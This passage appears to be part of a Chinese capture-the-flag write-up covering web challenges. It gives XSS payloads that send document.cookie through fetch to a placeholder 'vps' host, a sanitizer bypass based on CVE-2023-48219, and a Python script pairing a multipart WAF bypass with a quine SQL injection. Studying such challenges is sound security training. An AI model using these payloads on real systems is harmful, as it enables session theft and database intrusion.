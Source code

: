 ```html
<img data-b="{{content}}" />
```

{{content}}:

```html
" src="" onerror=fetch("http://vps/?s="+btoa(document.cookie)) "
```

## safe layout revenge

根据[CVE-2023-48219](https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations#cve-2023-48219-tinymce)，相同原理，通过取代字符可以绕过

![img](https://dlut-sss.feishu.cn/space/api/box/stream/download/asynccode/?code=YWU4ZWQ4MDk2NDY0NzQ1ZjY3MjI5MTlmMmQ5NTI0MzNfQ3U2R2VhZXR2SzVGamZJT2JHSWNUV1l3cXJSTXVsRllfVG9rZW46WHhLcmJqSEpRbzJ1cWF4eHhGaWNZTWRlbnpoXzE3NTg4ODI2ODE6MTc1ODg4NjI4MV9WNA)

Layout:

```html
a<style>
  <{{content}}/style><{{content}}img src=x onerror=fetch("http://vps/?s="+btoa(document.cookie))>
</style>
```

{{content}设置为空字符串即可

## supersqli

go 语言的 waf 在 ParseMultipartForm 函数解析 post 参数时遇到结束标记时就会结束解析，而 django 会解析。所以可以通过两者之间的差异绕过 waf.

后面 sql 注入一张空的表，考虑 quine 注入

```python
import requests

url="http://127.0.0.1:16662/flag/"
url="http://127.0.0.1:1234/flag/"
url="http://1.95.159.113/flag/"

payload=b'''1'union select 1,1,replace(replace('1"union select 1,1,replace(replace(".",char(34),char(39)),char(46),".")--',char(34),char(39)),char(46),'1"union select 1,1,replace(replace(".",char(34),char(39)),char(46),".")--')--'''
data=b'--abcdefg\r\nContent-Disposition: form-data; name="username"\r\n\r\nadmin\r\n--abcdefg\r\nContent-Disposition: form-data; name="password"\r\n\r\n123\r\n--abcdefg--\r\nContent-Disposition: form-data; name="password"\r\n\r\n'+payload+b''
headers={
    "content-type":"multipart/form-data; boundary=abcdefg",
}
res=requests.post(url,data=data,headers=headers)

print(res.text)
```

# Reverse
